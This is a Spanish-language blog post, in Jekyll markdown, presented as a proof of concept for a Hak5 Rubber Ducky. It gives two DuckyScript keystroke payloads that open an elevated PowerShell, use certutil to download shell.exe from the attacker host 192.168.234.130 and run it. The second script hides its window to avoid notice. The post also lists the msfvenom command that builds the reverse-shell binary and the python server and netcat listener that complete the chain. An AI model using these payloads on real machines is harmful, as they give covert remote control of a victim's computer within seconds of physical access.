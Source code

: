 ```yaml
---
layout: single
title: POC Rubber Ducky Rev Shell
excerpt: "Buenas! Hoy os voy a compartir como utilizar una herramienta de Hak5, aunque también se puede hacer de forma casera, en mi caso es el RubberDucky de Hak5."
date: 2021-09-20
classes: wide
header:
  teaser: /assets/images/RubberDuckyRevShell/Untitled.png
  teaser_home_page: true
  icon: 
categories:
  - POC RubberDucky
  - infosec
tags:
  -   POC
  -   Video
  -   RubberDucky
  -   Reverse Shell
---
```


# Rubber Ducky Rev Shell

![Untitled](/assets/images/RubberDuckyRevShell/Untitled.png)

Buenas! Hoy os voy a compartir como utilizar una herramienta de Hak5, aunque también se puede hacer de forma casera, en mi caso es el RubberDucky de Hak5.

El RubberDucky se compone de estos elementos:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%201.png)

El 1º elemento es una tarjeta MicroSD de 128mb en este caso

El 2º elemento es el dispositivo que voy a usar para controlar los archivos que quiero meter en la tarjeta MicroSD

El 3º elemento es el RubberDucky desenfundado, una vez que este todo listo metemos la tarjeta en el Rubberducky y ya esta listo para la acción.

 Su uso es muy sencillo, os lo voy a explicar en los siguientes pasos:

## 1º Paso

En este caso voy a programar una reverse shell a mi equipo en el Rubberducky, por lo que nos iremos a la pagina → [https://ducktoolkit.com/encode#](https://ducktoolkit.com/encode#)

Y programaremos los comandos que se van a ejecutar cuando ingresemos el RubberDucky:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%202.png)

En la primera parte ingresaremos nuestro código:

```powershell
DELAY 750
GUI r
DELAY 1000
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 750
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 500
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
```

Con `DELAY` → Hacemos que el programa espere cierta cantidad de tiempo

Con `GUI r` → Seria el equivalente a Windows + R

Con `STRING` → Le decimos que comando queremos escribir

Con `Enter` → Hace la función de la tecla ↲

Una vez terminado el script, seleccionamos el idioma

Le damos a Encode Payload

Y nos lo descargamos

## 2º Paso

En nuestra maquina atacante nos crearemos el binario malicioso, en este caso con la herramienta `msfvenom` 

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Nos compartimos un servidor http con `python` y nos ponemos en escucha con `netcat`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

─────────────────────────────────────────────────────────────────────────────────────────────
root@kali /home/kali/Desktop/POCRubberDucky
❯ rlwrap nc -nlvp 443                  
listening on [any] 443 ...
```

## 3º Paso

Meter el inject.bin descargado en la MicroSD

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%203.png)

Sacamos la MicroSD y la metemos en el RubberDucky:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%204.png)

## 4º Paso

Metemos el RubberDucky al sistema Windows que queremos vulnerar:

<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/coCoG7R6XKw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

De esta forma conseguimos ganar acceso a un sistema en tan solo 10 segundos.

Pero si os dais cuenta, en el sistema Windows se quedan las terminales abiertas y se ven como se ejecutan los comandos, una forma mas sigilosa y mas rapida seria programar el script de esta forma:

```powershell
DELAY 750
GUI r
DELAY 500
STRING powershell Start-Process powershell -Verb runAs
ENTER
ALT y
DELAY 400
ENTER
ALT SPACE
DELAY 300
STRING m
DELAY 300
DOWNARROW
REPEAT 100
ENTER
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 300
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
STRING exit
ENTER
```

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%205.png)

Se ejecutaría de esta forma:

<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/lKdGUfEHlO8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Como vemos es una herramienta muy sencilla de utilizar, espero que os haya gustado, si veo que a la gente le gusta quizás traiga otros scripts mas adelante.
